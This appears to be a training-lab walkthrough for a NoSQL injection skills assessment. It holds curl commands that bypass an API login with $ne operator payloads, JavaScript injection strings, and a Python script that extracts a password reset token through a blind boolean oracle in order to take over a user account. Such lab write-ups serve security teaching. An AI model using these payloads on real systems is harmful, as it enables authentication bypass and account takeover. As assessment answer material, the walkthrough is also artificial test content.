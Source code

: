 # Skills Assessment

## Assessment I: API NoSQL Injection

**Goal:** Exploit the NoSQLi vulnerability in the API and submit the flag you find.

1. Spawn the target machine.
2. Test sign-in with the provided credentials via the API (e.g. pentest:pentest) using `$eq` operator (returns a regular user token):

```bash
curl -w "\n" -s -X POST "http://STMIP:STMPO/api/login" \
     -H 'Content-Type: application/json' \
     -d '{"username": {"$eq": "pentest"}, "password": {"$eq": "pentest"}}'
```

3. Now use the `$ne` operator to bypass and retrieve the admin flag token:

```bash
curl -w "\n" -s -X POST "http://STMIP:STMPO/api/login" \
     -H 'Content-Type: application/json' \
     -d '{"username": {"$ne": "pentest"}, "password": {"$ne": "pentest"}}'
```

You will get a token as admin containing the flag.

**Answer:** {hidden}

---

## Assessment II: Blind JavaScript Injection & Oracle Reset

### 1. Fuzz and Identify the Oracle
- Visit `/login` and try usernames (e.g. "bmdyy")
- Observe the difference in error messages: response ends in 'credentials.' if a check is TRUE, else 'credentials' (no period).

### 2. Confirm Injection
Send as username: `" || true || "" != "` and a random password.
If the response ends with 'credentials.' → the injection worked.
Try with false: `" || false || "" != "` (should NOT end with period).

### 3. Obtain Reset Token With Oracle-Based Extraction
- Visit `/forgot` page, request a password reset for user "bmdyy".
- Extract the token character-by-character using binary search and JS injection oracle (token is 24 chars, uppercase/hyphen only):

```python
#!/usr/bin/env python3
from urllib.parse import quote_plus
import requests

def oracle(query):
    r = requests.post(
        "http://STMIP:STMPO/login",
        headers = {"Content-Type": "application/x-www-form-urlencoded"},
        data = f"username={quote_plus(query)}&password=doesNotMatterIamBypassed"
    )
    return "credentials." in r.text

passwordResetToken = ""
for i in range(24):
    low = 45   # '-' character
    high = 90  # 'Z'
    while low <= high:
        mid = (high + low) // 2
        if oracle(f'" || (this.username == "bmdyy" && this.token.charCodeAt({i}) > {mid}) || "" != "'):
            low = mid + 1
        elif oracle(f'" || (this.username == "bmdyy" && this.token.charCodeAt({i}) < {mid}) || "" != "'):
            high = mid - 1
        else:
            passwordResetToken += chr(mid)
            break
print("Token:", passwordResetToken)
```

### 4. Reset and Use New Credentials
- Use `/reset` with the obtained token and supply a strong new password.
- Log in as "bmdyy" with the reset password to obtain the homepage flag.

**Answer:** {hidden}
